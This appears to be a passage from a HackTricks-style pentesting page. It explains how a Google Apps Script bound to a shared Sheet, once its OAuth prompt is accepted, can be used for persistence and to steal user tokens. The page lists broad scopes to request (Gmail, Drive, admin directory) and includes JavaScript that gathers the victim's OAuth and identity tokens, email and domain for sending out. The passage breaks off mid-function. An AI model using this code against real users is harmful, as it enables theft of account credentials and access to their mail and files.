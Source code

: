 <details><summary>Support HackTricks</summary></details>
{% endhint %}

## App Scripts

App Scripts is **code that will be triggered when a user with editor permission access the doc the App Script is linked with** and after **accepting the OAuth prompt**.\
They can also be set to be **executed every certain time** by the owner of the App Script (Persistence).

### Create App Script

There are several ways to create an App Script, although the most common ones are f**rom a Google Document (of any type)** and as a **standalone project**:

<details><summary>Create a container-bound project from Google Docs, Sheets, or Slides</summary></details>

<details><summary>Create a standalone project</summary></details>

<details><summary>Create a standalone project from Google Drive</summary></details>

<details><summary>Create a container-bound project from Google Forms</summary></details>

<details><summary>Create a standalone project using the clasp command line tool</summary></details>

## App Script Scenario <a href="#create-using-clasp" id="create-using-clasp"></a>

### Create Google Sheet with App Script

Start by crating an App Script, my recommendation for this scenario is to create a Google Sheet and go to **`Extensions > App Scripts`**, this will open a **new App Script for you linked to the sheet**.

### Leak token

In order to give access to the OAuth token you need to click on **`Services +` and add scopes like**:

* **AdminDirectory**: Access users and groups of the directory (if the user has enough permissions)
* **Gmail**: To access gmail data
* **Drive**: To access drive data
* **Google Sheets API**: So it works with the trigger

To change yourself the **needed scopes** you can go to project settings and enable: **`Show "appsscript.json" manifest file in editor`.**

{% code overflow="wrap" %}
```javascript
function getToken() {
  var userEmail = Session.getActiveUser().getEmail();
  var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
  var oauthToken = ScriptApp.getOAuthToken();
  var identityToken = ScriptApp.getIdentityToken();
  
  // Data json
  data = {
    "oauthToken": oauthToken,
    "identityToken": identityToken,
    "email": userEmail,
    "domain": domain
  }

  // Send data
  makePostRequest(data);
  
```